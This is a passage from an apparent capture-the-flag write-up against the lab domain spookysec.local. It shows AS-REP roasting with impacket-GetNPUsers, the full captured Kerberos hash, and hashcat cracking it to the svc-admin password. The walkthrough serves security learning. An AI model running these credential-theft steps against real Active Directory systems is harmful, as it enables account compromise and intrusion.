 ```shell
impacket-GetNPUsers  spookysec.local/svc-admin -no-pass 
```
```shell
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for svc-admin
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:835bcf320ebcdb16d52c5dbaab03be53$797d447da68f06f0399fc8593ea446bf9f0064376bd72a22a5286991966f22c5b35fd257032ed634c49327a6f4359533db9ba624055fea6ba1f4d12a530d35164e0df06fb7b336bb6539c1fa49ece8b672e1199da3ef1611609aeda38889fb2cb8958e2897a00907743b4f54ec11d141ea59bbd57945410fc7ba9e019be735ca2806b36d63a1367f6f4ea38e46e1039296ff3ccd58b963b5123860508047cbe2f0dce949d8325e2f388c770cc056fc2091cca4be5197cd4353c4919cb7e9b06241ca3dd3d3821072ca5f176050a04b13e0e05034832da00ad8ecb40d039d8a04e7f9f798adbdafefdecaf2e924d6cad03a3a
```
#### <span style="color: PaleGreen;">- Let's Crack the Hash</span>

When looking searching the first bit of the hash we found

![image](https://i.imghippo.com/files/4tViZ1728486479.png)

let's use the hashcat to crack

```shell
hashcat -m 18200 ~/Downloads/hash.txt ~/Downloads/passwordlist.txt
```

```shell
Dictionary cache built:
* Filename..: password.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:835bcf320ebcdb16d52c5dbaab03be53$797d447da68f06f0399fc8593ea446bf9f0064376bd72a22a5286991966f22c5b35fd257032ed634c49327a6f4359533db9ba624055fea6ba1f4d12a530d35164e0df06fb7b336bb6539c1fa49ece8b672e1199da3ef1611609aeda38889fb2cb8958e2897a00907743b4f54ec11d141ea59bbd57945410fc7ba9e019be735ca2806b36d63a1367f6f4ea38e46e1039296ff3ccd58b963b5123860508047cbe2f0dce949d8325e2f388c770cc056fc2091cca4be5197cd4353c4919cb7e9b06241ca3dd3d3821072ca5f176050a04b13e0e05034832da00ad8ecb40d039d8a04e7f9f798adbdafefdecaf2e924d6cad03a3a:management2005
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:835bcf320eb...d03a3a
Time.Started.....: Wed Oct  9 18:37:25 2024 (0 secs)
Time.Estimated...: Wed Oct  9 18:37:25 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (password.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 19582.9 kH/s (1.05ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 70188/70188 (100.00%)
Rejected.........: 0/70188 (0.00%)
```